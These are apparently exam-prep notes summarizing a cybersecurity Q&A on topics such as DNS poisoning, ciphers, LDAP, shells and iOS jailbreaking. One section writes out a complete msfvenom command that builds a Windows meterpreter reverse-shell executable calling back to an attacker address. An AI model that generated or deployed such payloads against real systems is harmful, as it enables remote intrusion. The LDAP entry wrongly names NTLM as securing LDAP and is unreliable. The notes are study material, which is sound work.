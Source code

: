 
# Main Gist
This file summarizes the key concepts, questions, and answers discussed in today's cybersecurity Q&A.

---

## Proxy Tool for Manual Testing
**Burp Suite** is ideal for working as a proxy, saving requests/responses, and manual parameter/header testing.

---

## First Step of DNS Cache Poisoning
Querying a nameserver is the first move to gather DNS information.

---

## Five-Tier Container Technology Architecture
Colleagues are working at **Tier-3: Registries** — handling image validation and uploading to registries.

---

## Protocol to Secure LDAP
Use **NTLM** (with a port, usually TCP 389/636 if encrypted), but **LDAPS (LDAP over SSL)** is more typical.

---

## LTE Attack Type
The attack installing a fake tower is called an **aLTEr attack**.

---

## Symmetric Cipher with 128-bit Block and 256-bit Key
**Twofish** supports 128-bit block size and up to 256-bit key size.

---

## Block Size vs Key Size
- **Block Size:** Fixed chunk of data processed (e.g., 128 bits at a time).
- **Key Size:** Length of encryption key (affects security strength).

---

## Solving Plaintext Transmission
Switch to **HTTPS** (HTTP over SSL/TLS) to encrypt usernames/passwords.

---

## OS Detection with TTL Value
TTL of **128** usually indicates a **Windows** operating system.

---

## Whois + IP Info Retrieval
The hacker used **ARIN** to retrieve network range and topology data.

---

## Google Advanced Operator for Domain-Restricted Search
Use **`site:`** operator (e.g., `site:example.com`).

---

## Security Policy for Dial-out Modems
Check the **Remote-access policy** to verify permissions.

---

## Correct msfvenom Reverse Shell Command
```bash
msfvenom -p windows/meterpreter/reverse_tcp LHOST=10.10.10.12 LPORT=8888 -f exe > shell.exe
```

---

## Reverse Shell vs Bind Shell
- **Reverse Shell:** Attacker connects back (firewall friendly).
- **Bind Shell:** Attacker connects directly (requires open port).

---

## Reverse or Bind - Which Is Mostly Used?
**Reverse Shell** is mostly used because it's firewall/NAT-friendly.

---

## Bank URL Redirection Attack
The scenario describes a **DNS Hijacking** attack.

---

## CVSS v3.0 Basic Score 4.0
Severity Level: **Medium**.

---

## Difference: Pharming vs Phishing
- **Phishing:** Fake link via email/social engineering.
- **Pharming:** Redirecting by modifying DNS/hosts file.

---

## Virus Detection via Virtual Execution
**Code Emulation** is used to detect viruses by simulating them in a VM.

---

## Bluetooth Hacking: Theft of Information
**Bluesnarfing** involves stealing information via Bluetooth.

---

## Cyber Kill Chain Stage: Preparing Payload
John is at the **Weaponization** stage.

---

## SQLi Type using DNS Requests
**Out-of-band SQLi** leverages DNS to pass data to attackers.

---

## Firewall Evasion Scanning with Zombie
Technique is **Idle Scanning** (uses low-activity systems).

---

## Ping Command Flag Hidden Under "*"
The hidden flag is **`-n`** (Windows style for specifying number of Echo Requests).

---

## Cloud Attack on MSPs
Attack type is a **Cloud Hopper Attack**.

---

## IDS Evasion with Unicode Packets
Technique used: **Obfuscating**.

---

## iOS Jailbreaking Technique with Boot Patch
**Untethered Jailbreaking** — remains jailbroken after reboot without computer connection.

---

## iOS Jailbreaking Techniques Overview
- **Tethered:** Needs PC every reboot.
- **Semi-tethered:** Boots but no jailbreak functionality until PC reconnection.
- **Semi-untethered:** Boots normally; re-run app to jailbreak without PC.
- **Untethered:** Fully jailbroken even after reboot (no PC needed).

---

## DNS Tunneling Tool NSTX Port
Run NSTX over **Port 53** (standard DNS port).

---
